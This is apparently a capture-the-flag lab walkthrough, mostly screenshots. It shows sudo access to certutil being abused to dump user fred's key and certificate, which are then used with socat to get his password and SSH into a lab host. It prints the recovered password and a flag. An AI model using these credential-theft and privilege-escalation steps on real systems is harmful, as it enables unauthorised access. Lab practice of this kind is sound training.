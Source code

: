 <img width="950" height="186" alt="image" src="https://github.com/user-attachments/assets/40a3d27e-3cd0-4ff9-9d72-3a59f6fa8423" />


> we can use **`/usr/bin/certutil`** to read **`key`** and **`cert`** of **`fred`** user because we don't have permisson

<img width="757" height="104" alt="image" src="https://github.com/user-attachments/assets/3da8c591-b377-405c-9f19-98726e56104a" />


```
sudo /usr/bin/certutil fred "Fred Flintstone" > /tmp/fred_out.txt
```

<img width="955" height="699" alt="image" src="https://github.com/user-attachments/assets/f9bbddee-54ee-4405-a8f3-f0459fd9646e" />

> make two new files 

<img width="621" height="156" alt="image" src="https://github.com/user-attachments/assets/c3fddeda-b900-4612-9c41-0667d04c4ff9" />

> connect 

```
socat stdio ssl:10.10.226.43:54321,cert=fred.crt,key=fred.key,verify=0
```

<img width="921" height="379" alt="image" src="https://github.com/user-attachments/assets/ac212fe6-5c2c-483e-b99c-db85379d326b" />

## fred password

```
YabbaDabbaD0000!
```

## connect to fred ssh 


```
ssh fred@10.10226.43
```

<img width="569" height="156" alt="image" src="https://github.com/user-attachments/assets/1bb38dcd-ec59-4169-ad56-526a75b36886" />

```
THM{08da34e619da839b154521da7323559d}
```


## getting root

> ### try to do same to server user but faild

<img width="938" height="109" alt="image" src="https://github.com/user-attachments/assets/a1e25776-241e-46e1-a6c5-70a656785073" />

---

<img width="1251" height="233" alt="image" src="https://github.com/user-attachments/assets/9e4c7f17-8309-4951-b7c4-465ac290bdc9" />
